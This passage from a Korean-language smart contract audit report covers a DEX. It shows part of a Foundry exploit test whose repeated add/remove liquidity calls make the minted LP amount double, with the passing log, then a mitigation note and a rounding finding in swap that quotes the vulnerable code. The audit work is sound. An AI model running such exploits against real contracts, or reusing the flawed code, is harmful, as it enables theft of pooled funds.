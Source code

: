 ```solidity
        lp2 = dex.addLiquidity(1000 ether, 1000 ether, 0);
        console.log("lp2: %d", lp2);
        (rx, ry) = dex.removeLiquidity(lp2, 0, 0);
        lp2 = dex.addLiquidity(1000 ether, 1000 ether, 0);
        console.log("lp2: %d", lp2);
        (rx, ry) = dex.removeLiquidity(lp2, 0, 0);
    }
```

```solidity
[PASS] testExploitTotalLiquidity() (gas: 496144)
Logs:
  lp2: 2000000000000000000000
  lp2: 4000000000000000000000
  lp2: 8000000000000000000000
  lp2: 16000000000000000000000
  lp2: 32000000000000000000000
  lp2: 64000000000000000000000
  lp2: 128000000000000000000000
```

해당 취약점을 완화하기 위해서는 totalSupply를 저장하는 방식 보다 함수에서 즉각 totalSupply()함수를 호출해서 현재 발행된 LP token의 개수를 알아내는 방식이 권장된다.

## swap small amount round down
#### Dex.sol:swap:82
********************Informational (파급력: Low, 공격 난이도: Low)********************

```solidity
function swap(uint256 tokenXAmount, uint256 tokenYAmount, uint256 tokenMinimumOutputAmount) external returns (uint256 outAmount){
    //x*y=k, => if x-> y
    //x*y =k = > (X+x)(Y-y) =K
    // => xY -Xy -xy = 0
    // y = (X+x)/xY
    // y= 0.999x + X /0.999xY
    require(tokenXAmount > 0 || tokenYAmount > 0, "no zero.");
    require(tokenXAmount == 0 || tokenYAmount == 0, "only one");
    amountX = tokenX.balanceOf(address(this));// token X amount udpate
    amountY = tokenY.balanceOf(address(this));// token Y amount update
    require(amountX > 0 && amountY >0,"no token");
    uint256 outAmount;
    if(tokenXAmount > 0){
        **outAmount = amountY *(tokenXAmount * 999 /1000) / (amountX + (tokenXAmount * 999 / 1000));**
        require(outAmount >= tokenMinimumOutputAmount);
        amountY -= outAmount;
        amountX += tokenXAmount;
        tokenX.transferFrom(msg.sender,address(this),tokenXAmount);
        tokenY.transfer(msg.sender,outAmount);
    }
    else{
        outAmount =  amountX *(tokenYAmount * 999 /1000) / (amountY+ (tokenYAmount * 999 / 1000));
        require(outAmount >= tokenMinimumOutputAmount);
        amountX -= outAmount;
        amountY += tokenYAmount;
        tokenY.transferFrom(msg.sender,address(this),tokenYAmount);
        tokenX.transfer(msg.sender,outAmount);

    }
    return outAmount;
}
```
